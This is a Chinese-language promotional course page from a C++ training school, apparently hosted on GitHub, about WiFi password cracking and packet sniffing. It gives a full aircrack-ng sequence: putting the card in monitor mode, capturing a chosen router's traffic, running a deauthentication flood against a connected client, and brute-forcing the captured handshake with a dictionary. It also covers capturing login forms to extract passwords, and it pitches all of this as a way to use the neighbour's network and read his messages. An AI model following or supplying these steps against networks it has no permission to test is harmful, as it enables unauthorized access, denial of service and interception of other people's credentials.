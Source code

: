 [TOC]
# WIFI密码破解与网络数据抓包——传智播客C++学院
# 【课程介绍】
屌丝逆袭之蹭网利器，在女朋友面前炫耀一下自己的“黑客功底”，在Linux的世界里，其实这都不是什么难事；瘫痪路由器，发起网络攻击，抓包数据分析，加入"网络圣战"，进入Linux世界，轻松让你成为“高逼格”的IT达人。
# 【课程知识点】
1. Wifi密码破解原理剖析
2. 网络数据抓包与分析
3. 路由器攻击，瘫痪网络
4. 随心所欲，开发定制密码字典
5. 枚举字典，暴力破解
6. 轻松使用”隔壁老王“的wifi
# 【课程详情】

##  网络数据抓包与分析

Wireshark是一个非常好用的抓包工具，当我们遇到一些和网络相关的问题时，可以通过这个工具进行分析，不过要说明的是，这只是一个工具，用法是非常灵活的。

![wireshark](https://raw.githubusercontent.com/xwpfullstack/openlessons/dev/img/5.png "wireshark")

wireshark下载地址

	https://www.wireshark.org/download.html

### 选取网卡

wireshark左上角，查找list那个钮。

### 设置抓包过滤器(CaptureFilters)

	语法： Protocol $ Direction $ Host(s) $ Value $ Logical Operations $ Other expression
	例子：  ip  src host  192.168.1.100 
	            tcp  dst  port  8080

#### Protocol（协议）:

可能的值: ether, fddi, ip, arp, rarp, decnet, lat, sca, moprc, mopdl, tcp and udp.

如果没有特别指明是什么协议，则默认使用所有支持的协议。

#### Direction（方向）:

可能的值: src, dst, src and dst, src or dst

如果没有特别指明来源或目的地，则默认使用 “src or dst” 作为关键字。
例如，”host 10.2.2.2″与”src or dst host 10.2.2.2″是一样的。

#### Host(s):

可能的值： net, port, host, portrange.

如果没有指定此值，则默认使用”host”关键字。
例如，”src 10.1.1.1″与”src host 10.1.1.1″相同。

#### Logical Operations（逻辑运算）:

可能的值：not, and, or.

否(“not”)具有最高的优先级。或(“or”)和与(“and”)具有相同的优先级，运算时从左至右进行。
例如:

	“not tcp port 3128 and tcp port 23″与”(not tcp port 3128) and tcp port 23″相同。
	“not tcp port 3128 and tcp port 23″与”not (tcp port 3128 and tcp port 23)”不同。

如果过滤器的语法是正确的，表达式的背景呈绿色。如果呈红色，说明表达式有误。

### 设置显示过滤器(DisplayFilters)

	语法： Protocol.String1.String2  $  Comparison operator  $  Value $ Logical Operations $ Other expression
	例子： ip.src==192.168.1.100  (显示来源为192.192.168.1.100的包)
	           tcp.port==80

### 网络封包分析

	捕获登陆某网站的表单，分析其账号和密码。

##  Wifi密码破解原理剖析

![wifi密码破解原理剖析](https://raw.githubusercontent.com/xwpfullstack/openlessons/dev/img/wifi.png "wifi密码破解原理剖析")

画图示意

## Aircrack-ng
### 下载

	http://www.aircrack-ng.org/
	http://www.aircrack-ng.org/downloads.html
	wget http://download.aircrack-ng.org/aircrack-ng-1.2-rc2.tar.gz

### 安装

	sudo apt-get install build-essential libssl-dev pkg-config libnl-3-dev libnl-genl-3-dev
	tar zxvf aircrack-ng-1.2-rc2.tar.gz
	cd aircrack-ng-1.2-rc2
	make
	sudo make install
## WIFI 密码破解
1. 查看本机电脑无线网卡

	iwconfig  或者 ifconfig

2. 激活网卡到monitor模式，得到监控模式下的设备名为wlan0mon

	sudo airmon-ng  start  wlan0

3. 探测无线网络，选取破解路由器对象

	 sudo airodump-ng  wlan0mon

4. 设定监控频道，抓取被选定路由器的数据包，始终运行

	sudo airodump-ng  --ivs  -w  linuxcpp  -c  6  wlan0mon

	捕获的包存入linuxcp-0x.ivs 文件。x为序号

5. 新开终端，发起Deauth攻击，迫使客户端重新链接路由器

	sudo aireplay-ng  -0  1  -a 路由器MAC  -h  合法链接客户端MAC   wlan0mon

	De-Authentication DoS
	去验证洪水攻击，国际上称之为De-authentication Flood Attack，全称即去身份验证洪水攻击或去验证阻断洪水攻击，通常被简称为Deauth攻击，是无线网络拒绝服务攻击的一种形式，它旨在通过欺骗从AP到客户端单播地址的去身份验证帧来将客户端转为未关联的/未认证的状态。

如果Deauth攻击成功，airodump-ng捕获handshake ，此时可以ctrl+c终止airodump-ng抓包。

![四次握手包](https://raw.githubusercontent.com/xwpfullstack/openlessons/dev/img/%E5%9B%9B%E6%AC%A1%E6%8F%A1%E6%89%8B%E5%8C%85.png "四次握手包")

6. aircrack-ng 穷举字典，暴力破解

	sudo aircrack-ng  -w  dic  linuxcpp-01.ivs

	破解成功与否取决与字典是否涵盖全面，破解速度取决于硬件计算性能和字典优化
![破解](https://raw.githubusercontent.com/xwpfullstack/openlessons/dev/img/1.png "破解")

![成功破解](https://raw.githubusercontent.com/xwpfullstack/openlessons/dev/img/%E7%A0%B4%E8%A7%A3%E6%88%90%E5%8A%9F.png "成功破解")

## 字典开发

### 隔壁老王，蹭了你的网，看了你的信，就差......

如何防御呢？如何更灵活的进攻呢？欢迎大家走进传智播客c++学院，掌握高性能的c/c++语言，精通高B格的Linux系统编程，想要什么工具？自己写起。。。

## c++学院学员就业方向
1. 服务器开发
2. MFC和QT应用程序开发
3. Linux/Android系统开发
4. 数据库开发
5. 网络安全开发
6. web全栈开发（Django）

## 广州c++分校开班 —— 2016年3月20号

## 北京总部c++开班 —— 2015年12月5号

![传智c++学院](https://raw.githubusercontent.com/xwpfullstack/openlessons/dev/img/6.png "传智c++学院")	

